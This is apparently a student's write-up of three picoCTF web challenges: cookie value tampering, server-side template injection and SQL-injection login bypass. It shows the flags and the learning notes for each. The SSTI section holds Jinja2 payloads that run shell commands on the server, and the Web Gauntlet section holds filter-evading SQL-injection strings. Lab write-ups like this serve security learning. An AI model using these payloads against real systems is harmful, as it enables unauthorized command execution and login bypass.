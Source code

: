 # 1. Cookies:

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:64944/

## Solution:

We have to go into the website they gave, then we need to go to inspect and then cookies. Over there i observed when we typed snickerdoodle (it was given as example there) and entered, the value of cookie changed. I then googled and found that for a cookie, we can either change the name or value. Since the value was changing, I kept on changing values and refreshing the page, which told some random cookie names. At value 18, the flag showed up.

![screenshot when i got the flag](images/cookies_solution.png)

## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```

## Concepts learnt:

I learned that in the inspect page, we can either change the name or value of cookie. 

## Notes:

I first tried changing the name to admin like i did in citadelCTF, but that was wrong as all of them had the same name, the values were changing so we have to change values.  

## Resources:

https://youtube.com/watch?v=iGDJ695dUEM

https://youtube.com/watch?v=-Zea7GB2OwA

https://superuser.com/questions/244062/how-do-i-view-add-or-edit-cookies-in-google-chrome

***

# 2. SSTI1: 

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps!

## Solution:

Based on the name of the challenge, description which included "templating" and also the website where we had to type anythung and it outputted it, we can tell that we have to use server-side template injection. I first identified the tempalate engine using the tree below. 
![The tree for identifying tempalate engine](images/template-decision-tree.png)

When I typed "${7*7}", the same thing appeared, so I typed "{{7*7}}", 49 appeared, so i then typed "{{7*'7'}}", and 7777777 appeared, so we can tell that it is the Jinja2 engine. 

Once i identified it was a Jinja2 engine, i entered this payload, and the ids of root came. 

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
Since for the previous command, the ids came, I replaced the id with ls and got the list of all the files, and flag was one of them. 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
So i then replaced ls with cat flag and got the flag printed on the screen. 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}
```

## Concepts learnt:

I learned about server-side template injection, where we try to pass data into a template and execute it server-side, so that we can gain control of the server or gain access to sensitive information. The first step for this is to identify if there is any vulnerability of server-side template injection, by typing different test data. Then if there is any vulnerability, we have to identify the template engine used and then we can exploit the website. 

## Notes:

I first tried to go into inspect page and fiddle with different things over there, but server-side template injection doesen't work like that, we have to type data into the template. 

## Resources:

https://youtube.com/watch?v=iGDJ695dUEM

https://youtube.com/watch?v=-Zea7GB2OwA

https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack

https://onsecurity.io/article/server-side-template-injection-with-jinja2/

***

# 3. Web gauntlet

Can you beat the filters?

Log in as admin http://shape-facility.picoctf.net:65101/ , http://shape-facility.picoctf.net:65101/filter.php

## Solution:

There were 5 rounds. First i kept test for both username and password and got a SQL query which was using AND between username and password, which means both have to be correct. Also in the first round OR was filtered. So i kept the below payload and password as something random.

```
admin';
```
Here, I basically ended the query with ";" and ignoring the password part of the query. 

In the second round, OR, AND, LIKE, =, -- were filtered, so i kept the same payload as the first round.
```
admin';
```
In the third round, space character " ", OR, AND, LIKE, =, --, >, < were filtered, so i again used the same payload.
```
admin';
```
In the fourth round, admin was also filtered, so i couldnt use that anymore. So I used the UNION paylaod with LIMIT as 1, as generally admin will be the first in the table, with a random test username. Also since space was filtered, so i used /**/ to kind of like make a space with comments. 
```
test'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;
```
In the fifth round, they filtered union also. I saw about how we can concatenate values together using "||". So i used that for mixing "adm" and "in" to form admin in a similar format of the first 3 rounds. 
```
adm'||'in';
```

## Flag:

```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

I learnt about SQL injection, which is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. I learnt some basic payloads we can use to bypass the password and login as admin. 

## Notes:

I made many mistakes regarding which sql injections to use and also their syntax, there were also times when i over-complicated it. 

## Resources:

The hints given, https://www.youtube.com/watch?v=azYwfI26oXo&list=PLLKT__MCUeixCoi2jtP2Jj8nZzM4MOzBL&index=3

https://github.com/payloadbox/sql-injection-payload-list

https://portswigger.net/support/sql-injection-bypassing-common-filters

https://portswigger.net/web-security/sql-injection#what-is-sql-injection-sqli

https://portswigger.net/web-security/sql-injection/union-attacks
